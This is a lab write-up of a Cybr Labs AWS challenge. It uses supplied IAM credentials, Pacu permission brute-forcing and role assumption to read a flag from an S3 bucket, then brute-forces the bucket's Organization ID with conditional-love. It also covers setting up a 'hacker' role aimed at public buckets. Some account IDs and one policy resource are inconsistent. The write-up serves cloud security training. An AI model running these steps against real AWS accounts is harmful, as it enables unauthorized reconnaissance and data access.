

# Challenge Lab Name: `Discover AWS Organization ID via S3 Bucket`
<details open>
<summary><b>Scenario & Overview</b></summary>

> **Platform:** <a href="https://cybr.com" target="_blank" title="Open Cybr Labs Platform"></a> &nbsp;
>
>In this scenario, we're conducting a basic penetration test for a client who has provided IAM User credentials via an access key. This simulates stolen long-term credentials, a common source of AWS breaches. After completing basic enumeration from prior labs in [this course](https://cybr.com/courses/introduction-to-aws-enumeration/), you successfully discovered an IAM Role that appears to have access to an Amazon S3 bucket, but the S3 bucket seems is in a different AWS account. You already figured out which AWS account it belongs to from the prior lab, but now you want to know the AWS Organization ID.

</details>

<details open>
<summary><b>Initial Access & IAM Enumeration</b></summary>

The initial access for this lab were AWS credentials which I configured in an AWS profile by running `aws configure --profile org` where the profile name was **org**. From the command output below I could see that these credentials are for the IAM user **Daniel**. 

```bash
└─$ aws sts get-caller-identity --profile org       
{
    "UserId": "AIDAWXFD5UBO2CQR6XAYO",
    "Account": "462052761693",
    "Arn": "arn:aws:iam::462052761693:user/Daniel"
}
```

With valid AWS credentials I started [Pacu](https://github.com/RhinoSecurityLabs/pacu), an AWS exploitation framework, to automate finding the IAM user's permissions. I first ran the **iam__bruteforce_permissions** module to automate finding which services I, as the IAM user, could do. 

```bash
Pacu (org:imported-org) > run iam__bruteforce_permissions --region us-east-1
  Running module iam__bruteforce_permissions...
[iam__bruteforce_permissions] Enumerated IAM Permissions:
[iam__bruteforce_permissions] Enumerating us-east-1
...
Pacu (org:imported-org) > data iam
{
  "permissions": {
    "allow": [
      "sts:GetSessionToken",
      "sts:GetCallerIdentity",
      "iam:ListRoles",
      "dynamodb:DescribeEndpoints"
    ],
    "deny": []
  }
}
```

After the module was finished I ran the command `data iam` and I could see that the IAM user had permission to list roles in the AWS account. 

Next I ran the command `aws iam list-roles --profile org` and from the output I found a role that the IAM user could assume. 

```json
        {
            "Path": "/",
            "RoleName": "S3AccessImages",
            "RoleId": "AROAWXFD5UBOWTQ65FF3H",
            "Arn": "arn:aws:iam::462052761693:role/S3AccessImages",
            "CreateDate": "2026-11-04T15:49:19Z",
            "AssumeRolePolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Principal": {
                            "AWS": "arn:aws:iam::462052761693:user/Daniel"
                        },
                        "Action": "sts:AssumeRole"
                    }
                ]
            }
```

Although the role **S3AccessImages** had the **AssumePolicyDocument** that showed the IAM user could assume its role it would be great practice to check if the IAM user had the `sts:AssumeRole` permission. Since Pacu already showed I did not have the right permissions to do so I got an access denied error when running `aws iam list-user-policies` and `aws iam list-attached-user-policies`.

From here I could try and check what permissions the IAM role **S3AccessImages** had by running the command shown below. 

```bash
└─$ aws iam list-role-policies --role-name S3AccessImages --profile org    
{
    "PolicyNames": [
        "AccessS3BucketObjects"
    ]
}
```

I did try running the command `aws iam list-attached-role-policies --role-name S3AccessImages --profile org` but got an **AccessDenied** error, letting me know that I did not have permission. But from the command output above I could see that the policy **AccessS3BucketObjects** was attached to the IAM role. To check what statements were in the policy document I ran the command shown below.

```bash
└─$ aws iam get-role-policy --policy-name AccessS3BucketObjects --role-name S3AccessImages --profile org    
{
    "RoleName": "S3AccessImages",
    "PolicyName": "AccessS3BucketObjects",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "s3:ListBucket",
                    "s3:GetObject"
                ],
                "Effect": "Allow",
                "Resource": [
                    "arn:aws:s3:::img.cybrlabs.io",
                    "arn:aws:s3:::img.cybrlabs.io/*"
                ]
            }
        ]
    }
}
```

From the output I could see that the role would give me permission to view an S3 bucket named **img.cybrlabs.io** and get objects inside the S3 bucket. 

</details>


<details open>
<summary><b>Assuming IAM Role & S3 Bucket Enumeration</b></summary>

With the information gathered I could try to assume the IAM role **S3AccessImages**, which I did by running the command below.

```bash
└─$ aws sts assume-role --role-arn arn:aws:iam::801271477356:role/S3AccessImages --role-session-name S3AccessImages --profile org
{
    "Credentials": {
        "AccessKeyId": "AS**********",
        "SecretAccessKey": "bqqJ**************d",
        "SessionToken": "I******************44+wXm4ufNrkCokZKYHVP75FFi/wYsQ==",
        "Expiration": "2026-11-04T18:04:01+00:00"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA3VD4AORWHI72BD2QQ:S3AccessImages",
        "Arn": "arn:aws:sts::801271477356:assumed-role/S3AccessImages/S3AccessImages"
    },
    "PackedPolicySize": 18,
    "SessionTokenUtilization": 18,
    "SessionTokenSize": 760
}
```

The output from running the command to assume the role provided an access key, secret access key, and a session token which were then configured in a new AWS profile I named **s3accessimages**. 

```bash
└─$ aws sts get-caller-identity --profile s3accessimages
{
    "UserId": "AROA3VD4AORWHI72BD2QQ:S3AccessImages",
    "Account": "801271477356",
    "Arn": "arn:aws:sts::801271477356:assumed-role/S3AccessImages/S3AccessImages"
}
```

Since I knew that this role had permission to view the S3 bucket `img.cybrlabs.io` I went ahead and ran the command below to see what objects were inside. This is how I found the challenge flag file `engineering/flag.txt`. 

```bash
└─$ aws s3 ls s3://img.cybrlabs.io --recursive --profile s3accessimages 
2026-02-24 11:58:40    1370673 amazon-s3-controls-v2.jpg
2026-02-24 11:58:40         31 engineering/flag.txt
```

To view the file I went ahead and copied it into my current working directory by running the command below. 

```bash
└─$ aws s3 cp s3://img.cybrlabs.io/engineering/flag.txt . --profile s3accessimages 
download: s3://img.cybrlabs.io/engineering/flag.txt to ./flag.txt
```

From here I could view the contents of the file and get the challenge flag by running the command `cat [file name]`. 

</details>

<details open>
<summary><b>Enumerating for AWS Organization ID</b></summary>

So far, I've been able to assume a role that allowed me to copy a file onto my local machine, but another enumeration tactic would be to find the AWS Organization ID attached to the S3 bucket found earlier. To do this I would need to copy the IAM role that could be assumed by the IAM user and has the S3 bucket permissions, and install the `conditional-love.py` tool which would automate the process of finding an Organization ID. 

#### Tool Installation & Running the Script

To get started on finding the Organization ID related to this S3 bucket, I needed to install the `conditional-love` tool from GitHub which can be found [here](https://github.com/plerionhq/conditional-love/).

Below are the commands I used to install the tool on my local machine. 

```bash
git clone https://github.com/plerionhq/conditional-love.git
cd conditional-love
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
chmod +x ./conditional-love.py
```

Next it was time to run the command that would find the AWS Organization ID based on the S3 bucket found earlier. 

```bash
└─$ ./conditional-love.py --role arn:aws:iam::801271477356:role/S3AccessImages --target s3://img.cybrlabs.io --action=s3:HeadObject --condition=aws:ResourceOrgID --alphabet="0123456789abcdefghijklmnopqrstuvwxyz-" --profile org

Starting to be wrong. Please be patient...
=> o
=> o-
=> o-8
=> o-8q
=> o-8qt
=> o-8qt9
=> o-XXXXX
=> o-XXXXXX
=> o-XXXXXXX
=> o-XXXXXXXX
=> o-XXXXXXXXX
=> o-XXXXXXXXXX
```

The flags needed for this command are:

- `--role` which is the role ARN copied earlier and that the IAM user assumes. 
- `--target` which is the S3 bucket, `img.cybrlabs.io`.
- `--action` which is `s3:HeadObject`. 
- `--condition` which is `aws:ResourceOrgID`

A flag that is optional when running this tool, but is also helpful is:
- `--alphabet` since Organization IDs can contain any of these characters: `0123456789abcdefghijklmnopqrstuvwxyz-`

From the output I was able to get the Organization ID that was attached to the S3 bucket. 

</details>

<details open>
<summary><b>Extra: Offensive Infrastructure Setup for Public S3 Buckets</b></summary>

In this lab I was given AWS credentials and found that there was a role that could be assumed to view the S3 bucket `img.cybrlabs.io` and get objects from the bucket. Since this S3 bucket did not have public access I was not able to use my own AWS acconut to enumerate and find the Organization ID using the S3 bucket. In other cases, if there is output for the command `aws s3 ls s3://[bucket name] --no-sign-request` then it would be possible to get an AWS Organization ID using my own "offensive" infrastructure setup. 

In order to enumerate an Organization ID with a public S3 bucket, you will need an AWS account, and then will need to create an IAM user and a IAM role with a trust policy that allows the IAM user to assume it (`sts:AssumeRole`). Another step is attaching a policy to the IAM role that will permit querying any public S3 bucket.  

If you want to create your own infrastructure to enumerate a public S3 bucket (your own S3 bucket with public access), than you can see below how I did it. 

> [!NOTE]  
> My AWS Account ID is hidden but you should see 12 random digits for your own AWS account ID.

Login in to your AWS account as the root user and click on the CloudShell terminal icon.

<div align="center">
  
  <p><em>Viewing the AWS Management Console and CloudShell terminal.</em></p>
</div>

#### IAM User Creation & Policy Attachment (Inline)
Start by creating an IAM user:
```bash
~ $ aws iam create-user --user-name s3user
{
    "User": {
        "Path": "/",
        "UserName": "s3user",
        "UserId": "AIDAT5ADERD2QSBUNGENV",
        "Arn": "arn:aws:iam::XXXXXXXXXXXX:user/s3user",
        "CreateDate": "2026-10-08T20:48:39+00:00"
    }
}
```
- Copy the ARN of the IAM user created, in my case it's `arn:aws:iam::XXXXXXXXXXXX:user/s3user`

Once you have the IAM user's ARN, edit this policy to use the ARN just copied. Copy and paste this into a JSON file, which mine will be labeled `s3user-policy.json`.
```json
{
    "Version": "2012-10-17",
    "Statement": {
        "Effect": "Allow",
        "Action": "sts:AssumeRole",
        "Resource": "arn:aws:iam::XXXXXXXXXXXX:user/s3user"
    }
}
```
- This policy will be attached to the IAM user to allow it to assume a role. 

Next, upload the JSON policy document to the **CloudShell** environment by clicking **Actions > Upload File**. You will get a successful upload message once it has completed downloading. 

When that is done, attach the policy to the IAM user using the **CloudShell** terminal. This policy will be attached as an inline policy (`https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies_managed-vs-inline.html`) :
```bash
aws iam put-user-policy --user-name s3user --policy-name MyInlinePolicy --policy-document file://s3user-policy.json
```
- There will be no output from this command

You can verify that the policy is attached to the IAM user by running:
```bash
~ $ aws iam list-user-policies --user-name s3user
{
    "PolicyNames": [
        "MyInlinePolicy"
    ]
}
```

Before moving onto the next step, make sure to create an access key for the IAM user running the command below. Make sure to copy this somewhere safe because it will be used later. 
```bash
~ $ aws iam create-access-key --user-name s3user
{
    "AccessKey": {
        "UserName": "s3user",
        "AccessKeyId": "[REDACTED ACCESS KEY]",
        "Status": "Active",
        "SecretAccessKey": "[REDACTED SECRET KEY]",
        "CreateDate": "2026-10-09T04:39:07+00:00"
    }
}
```
#### IAM Role Creation & Policy Attachment (Permission)
Once done with the IAM user and the inline policy attached to it, a IAM role needs to be created for the IAM user to assume.
- The role permissions need to allow S3 enumeration.

Before starting, make sure to copy and paste the trust policy below as a JSON file, which in my case will be labeleld as `trust-policy.json`. Make sure to insert the IAM user's ARN before saving the file as well.
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::XXXXXXXXXXXX:user/s3user"
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

After saving the file, upload it to the **CloudShell** environment by again clicking **Actions > Upload File**. 

Now that the trust policy for the IAM role is uploaded, the IAM role `hacker` can be created with the trust policy by running:
```bash
~ $ aws iam create-role --role-name hacker --assume-role-policy-document file://trust-policy.json
{
    "Role": {
        "Path": "/",
        "RoleName": "hacker",
        "RoleId": "AROAT5ADERD254EGAWTPD",
        "Arn": "arn:aws:iam::XXXXXXXXXXXX:role/hacker",
        "CreateDate": "2026-10-09T04:03:46+00:00",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::XXXXXXXXXXXX:user/s3user"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        }
    }
}
```
- The IAM role ARN will be needed when running the `conditional-love.py` tool later

Once the command displays an output, the role policy to allow S3 enumeration for the IAM role can be uploaded to the **CloudShell** environment. 

Copy and paste the policy below as a JSON file, which in my case will be labeleld as `role-policy.json`. Like before, upload the JSON file to by clicking **Actions > Upload File**. You should get a successful upload message once it has completed downloading. 
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllBucketsGetObject",
      "Effect": "Allow",
      "Action": "s3:GetObject",
      "Resource": "arn:aws:s3:::*/*"
    },
    {
      "Sid": "AllBucketsList",
      "Effect": "Allow",
      "Action": "s3:ListBucket",
      "Resource": "arn:aws:s3:::*"
    }
  ]
}
```

With the IAM role and trust policy attached to it are created, the managed policy for S3 enumeration can be attached to the role running: 
```bash
aws iam put-role-policy --role-name hacker --policy-name S3EnumPolicy --policy-document file://role-policy.json
```
- There will be no output for this command

To check that the policy is attached to the IAM role, run:
```bash
~ $ aws iam list-role-policies --role-name hacker
{
    "PolicyNames": [
        "S3EnumPolicy"
    ]
}
```

#### Configure AWS Profile 
Before getting started with the Organization ID enumeration, an AWS profile needs to be configured with the IAM user access key and secret key created earlier. This step should be done on your terminal instead of CloudShell.

```bash
└─$ aws configure --profile s3user

Tip: You can deliver temporary credentials to the AWS CLI using your AWS Console session by running the command 'aws login'.

AWS Access Key ID [None]: [REDACTED ACCESS KEY]
AWS Secret Access Key [None]: [REDACTED SECRET KEY]
Default region name [None]: us-east-1
Default output format [None]: json
```

Now with  the public S3 bucket name and including the IAM role ARN, and AWS profile with the IAM user credentials you could run the command like earlier 

```bash
└─$ ./conditional-love.py --role arn:aws:iam::XXXXXXXXXXXX:role/hacker --target s3://[public s3 bucket] --action=s3:HeadObject --condition=aws:ResourceOrgID --alphabet="0123456789abcdefghijklmnopqrstuvwxyz-" --profile s3user
Starting to be wrong. Please be patient...
=> o
=> o-
=> o-8
=> o-8q
=> o-8qt
=> o-XXXX
=> o-XXXXX
=> o-XXXXXX
=> o-XXXXXXX
=> o-XXXXXXXX
=> o-XXXXXXXXX
=> o-XXXXXXXXXX
```

</details>

<details open>
<summary><b>Impact & Conclusion</b></summary>

The Organization ID itself is not sensitive information, but it does provide attackers with knowledge about the AWS infrastructure that is attached to the S3 bucket. I think that this YouTube [video](https://youtu.be/jq8SAF6ibSc?si=bsH32SwVPtvu3B7w&t=1023) was really helpful in understanding more about AWS Organizations and how AWS accounts are managed within the organization if you want to learn more. Cybr Labs also provides a free [course](https://cybr.com/courses/aws-certified-security-specialty-course/) for learning more about AWS Organizations and preparing for the AWS Certified Security Specialty certification. 

</details>

